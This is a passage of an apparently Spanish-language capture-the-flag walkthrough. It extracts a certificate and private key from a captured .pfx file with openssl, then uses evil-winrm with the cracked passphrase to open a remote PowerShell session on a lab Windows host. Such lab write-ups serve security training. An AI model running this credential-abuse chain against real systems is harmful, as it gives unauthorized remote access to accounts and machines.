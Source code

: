- Ahora si podemos seguir.

- Vamos a extraer el certificado y la clave privada.

```bash
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert
Enter Import Password:
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

- El puerto `5986/tcp` es abierto así que nos podemos conectar empleando `winrm` con el `cert` y la `key`.

```bash
❯ evil-winrm -h
                                        
Evil-WinRM shell v3.5

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
```

```bash
❯ evil-winrm -S -i 10.129.141.32 -c cert -k key
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
Enter PEM pass phrase: thuglegacy
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```
